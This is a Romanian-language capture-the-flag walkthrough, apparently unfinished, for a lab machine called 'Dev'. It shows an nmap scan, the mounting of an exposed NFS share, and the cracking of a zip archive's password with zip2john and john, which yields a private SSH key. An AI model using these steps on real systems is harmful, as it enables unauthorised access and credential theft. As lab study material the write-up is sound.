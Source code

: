 # Dev - walkthrough
Să începem cu scanarea porturilor deschise pentru o reprezentare mai clara pentru mașina data:
```
nmap -sS -A -T4 --min-rate 1500 -p- 192.168.64.138
```
```
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      42805/tcp   mountd
|   100005  1,2,3      48144/udp6  mountd
|   100005  1,2,3      53181/udp   mountd
|   100005  1,2,3      56255/tcp6  mountd
|   100021  1,3,4      34389/tcp   nlockmgr
|   100021  1,3,4      35047/tcp6  nlockmgr
|   100021  1,3,4      36698/udp   nlockmgr
|   100021  1,3,4      45998/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
|_http-server-header: Apache/2.4.38 (Debian)
34389/tcp open  nlockmgr 1-4 (RPC #100021)
35407/tcp open  mountd   1-3 (RPC #100005)
42805/tcp open  mountd   1-3 (RPC #100005)
45233/tcp open  mountd   1-3 (RPC #100005)
```
### Serviciul nfs
Observăm ca avem acest serviciul activm să verificam ce directoarea sunt disponibile pentru montare:
```
showmount -e 192.168.64.138
```
```
Export list for 192.168.64.138:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```
Montăm acest directoriul la noi:
```
mount -t nfs 192.168.64.138:/srv/nfs /tmp/nfs_share_dir
```
Avem un fișier care are denumirea de `save.zip` în cazul în care încercăm săl dezarhivăm ne cere parola:
Putem so spargem cu utilita `zip2john` care ne trasformat fișierul în hash și pe urma cu atacul de metotă bruta încearcă săl spargă:
```
zip2john save.zip > save.zip.hash
```
Atacul de tip brute force:
```
john save.zip.hash
```
```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
java101          (save.zip)
```
În urmare avem 2 fișiere noi `id_rsa` și `todo.txt` conținutul la `todo.txt` este mai jos:
```
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome
jp
```


# HZ CE MAI DEPARTE
![alt text](image/Dev_admin_password.png)

![alt text](image/Dev_get_correct_user.png)
